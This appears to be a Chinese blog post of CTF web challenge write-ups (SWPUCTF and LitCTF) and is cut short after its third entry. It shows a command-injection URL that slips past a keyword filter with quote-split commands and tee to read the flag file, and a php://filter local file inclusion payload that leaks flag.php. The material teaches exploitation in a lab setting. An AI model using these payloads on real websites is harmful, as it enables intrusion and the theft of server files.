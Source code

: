 ```yaml
---
title: Web做题(21-40)
date: 2024-02-23 19:29:16
tags: Web
mathjax: true
---
```


# Web做题(21-40)

## 21.[SWPUCTF 2021 新生赛]finalrce

PHP中`exec`函数无回显，重定向符“>”被ban，选择写入文件后访问：

```url
http://node4.anna.nssctf.cn:28483/?url=l''s / | tee 1.txt
```

将flag写入文件，cat被ban，可用tac或nl替代：

```url
http://node4.anna.nssctf.cn:28483/?url=ca''t /flllll\aaaaaaggggggg | tee 2.txt
```

## 22.[SWPUCTF 2022 新生赛]ez_ez_php

看到`include`尝试伪协议：

```url
http://node5.anna.nssctf.cn:28778/?file=php://filter/read/convert.base64-encode/resource=flag.php
```

Base64解码后，选择直接访问flag路由：

```url
http://node5.anna.nssctf.cn:28778/flag
```

## 23.[LitCTF 2023]作业管理系统

略。
